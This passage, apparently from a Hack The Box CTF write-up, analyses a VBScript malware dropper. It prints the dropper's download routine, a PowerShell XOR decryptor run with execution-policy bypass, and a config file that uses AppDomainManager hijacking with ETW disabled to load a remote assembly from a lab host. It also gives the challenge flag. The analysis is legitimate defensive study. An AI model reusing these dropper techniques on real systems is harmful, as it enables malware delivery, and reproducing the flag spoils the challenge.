For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)

    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```
This script tries to download 4 artifacts named `csrss.dll`, `csrss.exe`, `csrss.exe.config`, `wanted.pdf`, saved them to `C:\Users\Public\`, however the interesting is a powershell script which later named `temp.ps1` and exectued using `-ExecutionPolicy Bypass` argument:

```vb
strPowerShellScript = _
"param (" & vbCrLf & _
"    [string]$FilePath," & vbCrLf & _
"    [string]$KeyPath" & vbCrLf & _
")" & vbCrLf & _
"$key = [System.IO.File]::ReadAllBytes($KeyPath)" & vbCrLf & _
"$fileContent = [System.IO.File]::ReadAllBytes($FilePath)" & vbCrLf & _
"$keyLength = $key.Length" & vbCrLf & _
"for ($i = 0; $i -lt $fileContent.Length; $i++) {" & vbCrLf & _
"    $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]" & vbCrLf & _
"}" & vbCrLf & _
"[System.IO.File]::WriteAllBytes($FilePath, $fileContent)" & vbCrLf
```

`vbCrLf` is a constant in VBScript to create a new line, while `_` is used to append the next line to this one. So after beautifying, the powershell script will looks like this:

```powershell
param (
      [string]$FilePath,
      [string]$KeyPath
  )
  $key = [System.IO.File]::ReadAllBytes($KeyPath)
  $fileContent = [System.IO.File]::ReadAllBytes($FilePath)
  $keyLength = $key.Length
  for ($i = 0; $i -lt $fileContent.Length; $i++) {
      $fileContent[$i] = $fileContent[$i] -bxor $key[$i % $keyLength]
  }
  [System.IO.File]::WriteAllBytes($FilePath, $fileContent)
```
A simple xor function, it xor the file from `$FilePath` with the key from `$KeyPath`, in the VBScript, the execute command looks like this:

```vb
Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)

For i = 0 To UBound(arrFilePaths)
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
```

Now the attacker intent is more clear, he will xor `csrss.exe`, `csrss.exe.config`, `wanted.pdf` with all bytes of `csrss.dll`, so I used a python script to xor those 3 files:

```python
from pathlib import Path

key = Path("csrss.dll").read_bytes()
for name in ["csrss.exe", "csrss.exe.config", "wanted.pdf"]:
      data = Path(name).read_bytes()
      out = bytes(b ^ key[i % len(key)] for i, b in enumerate(data))
      Path(name + ".dec").write_bytes(out)
```

After decoding, I first analysed the `csrss.exe.config.dec`, since it downloaded another assembly from  `http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json`:

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <dependentAssembly>
            <assemblyIdentity name="dfsvc" publicKeyToken="205fcab1ea048820" culture="neutral" />
            <codeBase version="0.0.0.0" href="http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json"/>
         </dependentAssembly>
      </assemblyBinding>
      <etwEnable enabled="false" />
      <appDomainManagerAssembly value="dfsvc, Version=0.0.0.0, Culture=neutral, PublicKeyToken=205fcab1ea048820" />
      <appDomainManagerType value="dfsvc" />
   </runtime>
</configuration>
```

After curling the file, I ran file and guess what, that was an .NET `.exe`:



I opened the file using dnSpy:





The flow is:
1. Decrypt a base64 encoded string: `ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw=` using AES-CBC with Zero padding
2. The key is sha256 of the string `vudzvuokmioomyialpkyydvgqdmdkdxy`, the IV is the string `tbbliftalildywic`
3. After decoding it should be an URL, this malware then downloads data from that URL, using `VirtualAlloc` for allocating memory, and running thread from that memory

Using CyberChef, I could decode the base64 encoded URL:



Curling the malware from that URL, I ran `strings` and got the flag:





## 3. Solution ##
1. **Result:** The flag is `HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}`


